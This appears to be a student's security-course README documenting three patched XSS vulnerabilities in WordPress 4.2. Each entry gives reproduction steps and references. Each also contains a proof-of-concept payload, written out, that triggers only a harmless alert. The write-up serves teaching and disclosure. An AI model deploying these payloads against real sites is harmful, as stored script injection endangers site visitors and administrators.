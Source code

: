 # CS4984
# CS4984 - Wordpress vs Kali - Week 7 Assignment
Time spent: 10 hours total
README.md

1.	Authenticated Stored Cross-Site Scripting (XSS)
    Summary:
      *	Vulnerability type: XSS
      *	Tested in version: 4.2
      *	Fixed in version: 4.2.3
      
    GIF Walkthrough:
    
    <img src="https://i.imgur.com/DOIp9H9.gif"/>
  Steps to Reproduce: Create a page/post and add: 
  
  ```html
  <a href="[caption code=">]</a><a title=" onmouseover=alert('test') ">link</a>
  ```
  
  to the body. Make sure to be in the text mode and not visual mode for the body section.

  Reference: https://klikki.fi/adv/wordpress3.html 

2.	Authenticated Cross-Site Scripting (XSS)
    Summary:
      *	Vulnerability type: XSS
      *	Tested in version: 4.2
      *	Fixed in version: 4.2.6
      
  GIF Walkthrough: 
  
  <img src="https://i.imgur.com/ZEgrhCE.gif"/>
  
  Steps to Reproduce: Go to a post and make a comment that says: 
  ```html
  http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
  ``` 
  Once you post the comment, a pop up that says “Alert(1)” will show up.

  References: 
  https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87 
  https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564 

3.	Pulpload Same Origin Method Execution (SOME)
    Summary: 
      *	Vulnerability type: XSS
      *	Tested in version: 4.2
      *	Fixed in version: 4.2.8
    
      GIF Walkthrough:
      
      <img src="https://i.imgur.com/UB8t0rF.gif"/>
      
      
      Steps to Reproduce: Go to any post and make a comment with the following code: 
      ```html
      <button onclick="fire()">Click</button>
      <script>
      function fire() {
      open('javascript:alert(1)');
      }
      </script>
      ```
      Post the comment and click on the button in the comment. A pop up that says “Alert(1) will show up.

      References: 
      https://wpvulndb.com/vulnerabilities/8489 
      https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e 
